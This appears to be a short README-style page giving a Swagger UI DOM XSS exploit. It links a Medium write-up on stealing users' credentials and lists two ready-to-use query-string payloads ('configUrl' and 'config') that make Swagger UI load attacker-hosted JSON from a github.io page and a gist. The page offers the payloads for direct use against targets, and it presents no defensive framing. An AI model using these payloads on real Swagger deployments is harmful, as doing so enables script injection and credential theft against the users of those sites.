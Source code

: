 #### Medium article to read and exploit the xss and how to create impact using the xss
````
https://medium.com/@M0X0101/how-i-was-able-to-steal-users-credentials-via-swagger-ui-dom-xss-e84255eb8c96
````
### Add this endpoints to the swagger url
- /index.html?configUrl=https://m0x0101.github.io/lol/test.json
- /index.html?config=https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json
